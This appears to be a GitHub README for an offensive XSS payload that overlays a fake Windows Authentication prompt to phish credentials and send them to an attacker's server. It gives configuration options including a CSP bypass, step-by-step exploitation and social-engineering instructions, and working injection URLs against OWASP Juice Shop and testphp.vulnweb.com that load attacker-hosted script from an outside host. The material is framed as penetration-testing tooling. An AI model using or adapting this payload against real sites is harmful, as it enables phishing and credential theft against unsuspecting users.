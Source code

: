 # [unauthn] Windows Authentication Prompt (Phish)

<p align="justify">This payload adds HTML code as an overlay to the target web page (containing the XSS vulnerability). The code displays the dreaded Windows Authentication prompt popup window. The overlay creates the illusion that the operating system spawned the prompt. Once they encounter such an authentication prompt, most users have a (proven) tendency to blindly provide it credentials (which contributes to a higher success rate of such phishing attacks).</p>

Typical use-case scenarios:
* external network perspective (Internet)
  * public web application which uses Windows Authentication (e.g. Outlook Web Access) without 2FA
* internal network perspective (LAN)
  * Windows Active Directory environments (**NOTE**: no web application requirements)

The payload (`winph.js`) supports the following options:

* no CSP bypass - issue AJAX request (i.e. client-side redirect)

  ```
  ...
  let bypassCSP = false;
  ...
  ```

* CSP bypass - issue hard redirect (uses `redir.php`; i.e. server-side redirect)

  ```
  ...
  let bypassCSP = true;
  ...
  ```

* run payload once - sets a cookie, once payload is executed; used to prevent further payload executions

  ```
  ...
  let runOnce = true;
  ...
  ```

## Live Example

* *(live example - OWASP juice shop - reflected XSS)*

    https://preview.owasp-juice.shop/#/search?q=%3Cimg%20src%20onerror%3D%22with(document)body.appendChild(createElement(%27script%27)).src%3D%27%2F%2Fcdn.jsdelivr.net%2Fgh%2Flighthouseitsecurity%2FweaponizedXSS%2FWindowsPhishing%2FwinphLiveExample.js%27%3B%22%3E

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

### Vulnerable Page

http://testphp.vulnweb.com/listproducts.php?cat=XSS_PAYLOAD_HERE

## Exploitation Steps

1. [setup exploit] change payload variable values (`winph.js`; `redir.php`)

    `attWsPhishPath` - exfiltration web server URL (i.e. scheme + FQDN + port + path; use trailing slash)

    `bypassCSP` - use/do not use CSP bypass (true/false)

    `runOnce` - execute payload only once (true/false)

    `url` - exfiltration web server URL

2. [setup exploit] setup web server (to serve the payload/redirector)

3. [social engineering attack] victim user clicks link

    ```
    http://testphp.vulnweb.com/listproducts.php?cat=<script src=http://192.168.5.5/winph.js></script>
    ```

    * **NOTES**:
      * `testphp.vulnweb.com` - target site
      * `192.168.5.5` - web server hosting the payload

4. [social engineering attack] victim user authenticates

    *(attacker obtains credentials)*

5. [post exploit] attacker leverages obtained credentials (scenario dependent)

## Screenshots

* **NOTE**: the screenshot covers steps 1 to 4 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_cred_exfil_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_cred_exfil_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Mozilla FireFox

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_web_browser_rendering_-_Mozilla_FireFox_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_web_browser_rendering_-_Mozilla_FireFox_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Google Chrome

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_web_browser_rendering_-_Google_Chrome_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_web_browser_rendering_-_Google_Chrome_-_1-1.png">
    </picture>
  </kbd>
</p>

* [web browser rendering] Microsoft Edge

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_web_browser_rendering_-_Microsoft_Edge_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/WindowsPhishing/screenshots/Windows_phish_-_web_browser_rendering_-_Microsoft_Edge_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/73fbd395-1458-4a41-a1df-47dd6d58cf23
